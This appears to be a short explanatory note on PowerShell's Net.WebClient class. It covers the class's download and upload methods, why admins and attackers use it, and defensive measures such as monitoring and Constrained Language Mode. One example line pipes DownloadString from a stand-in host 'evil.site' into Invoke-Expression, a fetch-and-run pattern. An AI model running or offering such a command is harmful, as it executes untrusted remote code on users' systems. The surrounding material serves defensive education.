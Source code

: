 This PowerShell command creates a new instance (an object) of the .NET `System.Net.WebClient` class. In less nerdy terms: it gives you a tool for downloading or uploading data via web protocols (such as HTTP, HTTPS, FTP) directly from PowerShell.

$web = New-Object Net.WebClient
Now "$web" is an object. Its methods can be used to fetch (download) or send (upload) data over the network.

**What Does It Do?**
- **`DownloadString(<url>)`:** Grabs the text from a URL.
- **`DownloadFile(<url>, <path>)`:** Downloads a file to your machine.
- **`UploadString(<url>, <data>)`:** Sends data to a web server.
- $content = $web.DownloadString("https://example.com/data.txt")
- [[Invoke-Expression]] ($web.DownloadString("http://evil.site/bad.ps1"))

## Why Do Attackers (and Admins) Like It?

### The Good

- **Admins:** Automate downloads and updates, fetch scripts, interact with REST APIs, or report system status to dashboards.
- **DevOps:** Use it for deployment pipelines, configuration fetching, etc.

### The Bad (and the Ugly)

- **Attackers:** Love it because they can download tools, scripts, payloads, or establish command-and-control—_without leaving tell-tale files behind_.
- **Combo Moves:** Pair with `IEX` (like peanut butter and jelly, but for malware) to execute whatever the attacker downloads—on the spot.


## Practical Security Note

- **Monitor and alert** on unusual uses of `New-Object Net.WebClient`, especially paired with `IEX`.
- **Lock down PowerShell** with Constrained Language Mode and script signing wherever possible.
- **Block outbound PowerShell traffic** to the internet if you don’t need it.


"WebClient" is deprecated in .NET 6 and up.
"HttpClient" is used in its stead.